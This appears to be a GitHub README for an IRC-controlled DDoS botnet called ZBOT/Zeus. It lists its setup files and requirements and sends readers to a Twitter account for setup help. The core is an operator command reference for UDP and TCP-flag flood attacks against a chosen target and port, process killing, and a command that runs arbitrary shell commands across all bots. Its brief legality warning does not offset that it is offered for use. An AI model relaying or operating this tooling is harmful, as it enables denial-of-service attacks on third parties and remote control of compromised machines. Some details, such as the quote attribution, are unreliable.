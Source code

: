 # ZBOT-Botnet / Zeus-Botnet
# Requirements: CentOS 6.8/6.9 x64 Server
# 
Botnets are illegal, very illegal. Across the globe
# 
Especially ones that are programmed to perform denial of service attacks.
# 
ZBOT/Zeus is a IRC based botnet, you will have to compile it with UnrealIRC3.2-*
# 
# DISCLAIMER
I'm not giving any tutorials on the setup process, If you would like more information on it;
# 
insist of messaging me via Twitter! http://twitter.com/codingplanets
# 
"From one lulzy trollist to the next I can do my best to be the best of the rest" -Chris Poole
# File contents
zbot-setup.py | zbot.c | zbot-build | Unreal3.2.zip
# IRC Commands
	!* udp <target> <port> <time>  |  raw udp attack
# 
	!* syn <target> <port> <time>  |  tcp syn attack
# 
	!* fin <target> <port> <time>  |  tcp fin attack
# 
	!* psh <target> <port> <time>  |  tcp psh attack
# 
    !* ack <target> <port> <time>  |  tcp ack attack
# 
    !* urg <target> <port> <time>  |  tcp urg attack
# 
    !* rst <target> <port> <time>  |  tcp rst attack
# 
    !* ece <target> <port> <time>  |  tcp ece attack
# 
    !* cwr <target> <port> <time>  |  tcp cwr attack
# 
    !* sew <target> <port> <time>  |  tcp sew attack
# 
    !* xmas <target> <port> <time>  |  tcp xmas attack
# 
	!* unknown <target> <time>   |  unknown attack type
# 
	!* kill   |  kill all pids
# 
	!* killall  |  kill all packeting attacks
# 
	!* sh <command>   |  sends command across all bots
